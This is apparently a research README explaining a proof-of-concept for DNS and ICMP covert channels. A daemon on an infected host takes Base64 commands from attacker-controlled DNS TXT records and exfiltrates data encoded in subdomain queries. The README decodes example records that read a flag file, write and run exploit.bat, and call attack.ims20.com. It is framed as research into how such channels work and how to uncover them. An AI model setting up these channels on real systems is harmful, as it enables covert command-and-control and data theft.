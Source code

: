 # Covert Channels - A proof of concept
Covert channels serve as a way to transport data out of a network or inside a network. All of this happens in a hidden manner. So the real trick with covert channels is to hide the communication between two parties behind some kind of cover. This repository contains a proof of concept for storage based covert channels using DNS and ICMP.
## Foreword
All code and configuration contained in this repository was developed by Simon Schönegger and Lejla Sarcevic during research regarding covert channels. This code is not intended for malicious use - it should serve as an example on how covert channels can be established and how they may be uncovered.

## DNS Covert Channel
Code and configration for a DNS Covert channel can be found under the DNS folder in this repository.
### Infrastructure
This covert channels is used post exploitation. This means we require an infected client that runns our script. We wrote this script using python but requiring a python interpreter on the victim is not the way to go - it should be written in a language that can access the filesystem as well as the network and is native to the operating system - something like C.


The second requirement is a DNS server under our control. This 'evil' DNS server needs to be listed on a legit DNS server so that it can be queried without setting the default DNS server on the victim machine. For our proof of concept we used a ubuntu server 18.04. It runs bind9 as a dns server.

### Daemon
Our deamon script is run on the infected machine. It performs queries against our DNS server.
 The important part here is that the DNS server returns TXT records on specific subdomains. 
 These TXT records are used to store the commands we want to execute on the infected machine. 
 Further information about the records can be found in the configuration section. 
 
 
 The basic intention of the script is to simply interpret the commands it receives from the DNS server.
 If it is instructed to exfiltrate data it performs a DNS query and uses the encrypted data as sub domain.
 This way the exfiltrated data can be found in the query log of the server. The server could also run a script
 which analyzes the received DNS queries for exfiltrated data.
 
 It may also create files on the infected system as well as add content to these files. It is capable of executing
 the files. In this way payload can be brought to the infected system (later described under configuration).
 
 One drawback of our published daemon script is that it only interprets data once. It should be hooked in a way that
 it always waits for commands added on the server. This can be done without much effort but we did not bother to 
 include it in this small proof of concept.
 
 Commands are Base64 encoded, exfiltrated data is encoded using Base32.
 
 ### Configuration
 I will not go into too much detail about the configuration of bind9 since this can be easily googled and is not
 in scope of this work.
 
 
 The interesting part for are the zone files. It contains the records that the DNS server will return for speficic
 queries. The configuration files themselves can be found in the DNS section of this repository. I would recommend reading
 them before you continue to read here.
 

As seen in the configuration files it contains Base64 encoded data TXT sections. This data is the actual payload that 
the daemon can interpret. I will decode the commands and describe the actions of the daemon for a better understanding

|Record | Decoded | Action of the daemon |
|-------|---------|----------------------|
|e3JlYWQgQzpcVXNlcnNcUHVibGljXERvY3VtZW50c1xmbGFnLnR4dH17YXNrIGF0dGFjay5pbXMyMC5jb219|{read C:\Users\Public\Documents\flag.txt}{ask attack.ims20.com}| read contents of flag.txt and query attack.ims20.com for instructions|
|e2NyZWF0ZSBDOlxVc2Vyc1xQdWJsaWNcRG9jdW1lbnRzXGV4cGxvaXQuYmF0ICBDOlxXaW5kb3dzXHN5c3RlbTMyXGNhbGMuZXhlfXthc2sgcnVubmVyLmltczIwLmNvbX0=|{create C:\Users\Public\Documents\exploit.bat  C:\Windows\system32\calc.exe}{ask runner.ims20.com}| Create exploit.bat, write the payload to it and ask runner.ims20.com for instructions|
|e3J1biBDOlxVc2Vyc1xQdWJsaWNcRG9jdW1lbnRzXGV4cGxvaXQuYmF0fQ==|{run C:\Users\Public\Documents\exploit.bat}| Execute exploit.bat (launches a calculator)|
 
 
It is crucial to configure query logging on the server. I won't go into too much detail on how to do that, however i will
share my apparmor configuration.


## ICMP Covert Channel
Code for this covert channel can be found in the ICMP folder in this repository. All commands used in the ICMP data 
section are set behind *{}* which are not encrypted so our scripts can simply find the commands.
### Infrastructure
Once again, we require a infected machine. Our daemon will be run on that machine. We also require a commander that is able
to send icmp packages to the infected machine. If this is not directly possible, we can also implement a chain of commands
to tranfer data over multiple machines to the outside. Our script could be extended in that manner. The daemon would be 
required to run on all of the chained machines and would need to forward to the correct IP addresses.

###Commander
In our case the commander only sends a limited number of commands to the daemon. The commander only sends 
*{e3JlYWQgfi9mbGFnLnR4dH0=}* which translates to *{{read ~/flag.txt}}*. The commander has to be able to 
listen for incoming pings aswell since the daemon will reach out to it once the command is run. The commander
specifies a different command set than the daemon. In that way the echo replies of the daemon will not be 
interpreted and cause no loop.

The commander sends it commands Base64 encoded.


Listener and commander are run in different Threads.

###Daemon
The daemon waits for incoming ICMP packages. Once it receives one, it seaches for the commands. It interprets the 
command accordingly and sends back a ICMP package to the commander. The daemon encodes its payload with Base32 in contrast
to the Commander which always encodes commands in Base64.

#Contact
Simon Schönegger 
* [LinkedIn](https://www.linkedin.com/in/simon-sch%C3%B6negger-b4b663165/)
* Mail: simon.schoenegger@edu.fh-joanneum.at

Lejla Sarcevic
